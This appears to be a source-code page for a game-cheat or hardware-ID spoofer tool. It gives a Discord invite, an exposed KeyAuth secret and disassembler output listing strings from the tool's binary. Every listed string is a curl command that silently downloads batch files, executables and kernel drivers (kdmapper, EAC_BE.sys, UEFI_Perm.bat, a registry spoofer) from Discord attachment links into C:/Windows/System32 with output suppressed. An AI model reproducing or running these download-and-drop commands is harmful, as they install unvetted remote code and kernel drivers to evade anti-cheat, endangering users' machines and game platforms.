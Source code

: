 # timefn server https://discord.gg/PagEaK6KAe

using keyauth

secret: cc914445fd32b95bb93b3153dc654c4a8d59d8b0ef07f4d032be7bc97e5d2b83 

ver: 1.0

アドレス=00007FF7016CFD72
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8290]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984112849666338828/1ButtonNE.bat --output C:/Windows/System32/sxwhs.bat >nul 2>&1"

アドレス=00007FF7016CFD7F
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8330]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/979588096024801330/NetCleaner_1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016CFE78
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8480]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984145900408553482/valo_1.bat --output C:/Windows/System32/sxwhs.bat >nul 2>&1"

アドレス=00007FF7016CFE85
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8510]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984145900681199616/regspoofer.bat --output C:/Windows/System32/f3341.bat >nul 2>&1"

アドレス=00007FF7016D010E
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8620]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984113907209748601/ApexLegendsCleaner.bat --output C:/Windows/System32/sxwhs.bat >nul 2>&1"

アドレス=00007FF7016D011B
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8330]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/979588096024801330/NetCleaner_1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016D0219
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D86D0]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984121087375847544/EAC_BE.sys --output C:/Windows/System32/sxwhs.sys >nul 2>&1"

アドレス=00007FF7016D0226
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8760]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984122216226623528/kdmapper1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016D0233
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8800]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984260408519045191/Loader.bat --output C:/Windows/System32/f3341.bat >nul 2>&1"

アドレス=00007FF7016D0240
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8890]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984885463540179045/UEFI_Perm.bat --output C:/Windows/System32/f33411.bat >nul 2>&1"

アドレス=00007FF7016D0344
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D89A0]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/980495351712727120/valorant.sys --output C:/Windows/System32/sxwhs.sys >nul 2>&1"

アドレス=00007FF7016D0351
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8760]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984122216226623528/kdmapper1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016D035E
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8800]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984260408519045191/Loader.bat --output C:/Windows/System32/f3341.bat >nul 2>&1"

アドレス=00007FF7016D0459
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D86D0]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984121087375847544/EAC_BE.sys --output C:/Windows/System32/sxwhs.sys >nul 2>&1"

アドレス=00007FF7016D0466
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8760]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984122216226623528/kdmapper1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016D0466
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8760]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984122216226623528/kdmapper1.exe --output C:/Windows/System32/f3341.exe >nul 2>&1"

アドレス=00007FF7016D0480
逆アセンブル=lea rcx,qword ptr ds:[7FF7016D8890]
String="curl https://cdn.discordapp.com/attachments/955490684171845736/984885463540179045/UEFI_Perm.bat --output C:/Windows/System32/f33411.bat >nul 2>&1"


